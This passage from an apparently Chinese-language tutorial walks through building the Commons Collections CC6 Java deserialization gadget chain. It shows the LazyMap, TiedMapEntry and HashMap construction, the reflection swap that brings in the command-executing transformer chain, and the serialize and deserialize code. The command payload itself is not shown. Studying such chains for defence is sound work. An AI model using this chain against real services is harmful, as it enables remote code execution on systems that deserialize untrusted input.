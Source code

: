 ```
Map innerMap = new HashMap();

// 调用 LazyMap.decorate 实例化 LazyMap
// 先传入一个人畜无害的 transformerChain 对象 ConstantTransformer(1) ，避免本地调试时触发命令执行
Map outerMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));
```

上述代码，为了避免本地调试时触发命令执⾏，构造 `LazyMap` 的时候先⽤了⼀个无伤大雅的虚假 `transformerChain` 对象 `ConstantTransformer(1)` ，等最后要⽣成 `Payload` 的时候，再把真正的 `transformers` 替换进去。

## 3.2 创建 TiedMapEntry 实例
看一下 TiedMapEntry 的构造函数：

<div align=center><img width="767" alt="image" src="https://user-images.githubusercontent.com/84888757/205505132-3e3228d0-dad8-4645-b14f-3e725bb421ea.png" /></div>


现在，已经创建了⼀个恶意的 `LazyMap` 对象 `outerMap` ，将其作为` TiedMapEntry` 的 `map` 属性，随便写个 `key` ：
```
TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
```

然后为了调⽤ `TiedMapEntry#hashCode()` ，我们需要将 `tme` 对象作为 `HashMap` 的⼀个 `key` 。

注意，这⾥我们需要新建⼀个 `HashMap` ，⽽不是⽤之前 `LazyMap` 利⽤链⾥的那个 `HashMap` ，两者没任何关系：
```
Map expMap = new HashMap();
expMap.put(tme, "valuevalue");
```

然后利用反射将虚假 `transformerChain` 对象 `ConstantTransformer(1)` 替换为执行命令的数组 `transformers`

```
Class c = LazyMap.class;
Field factoryField = c.getDeclaredField("factory");
factoryField.setAccessible(true);
factoryField.set(outerMap, transformerChain);
```

## 3.3 CC6 Gadget 踩坑记
最后放上序列化和反序列化代码
```
        //==================
        //⽣成序列化字符串
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(expMap);
        oos.close();

        System.out.println(bos);

        // 反序列化
        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();
```
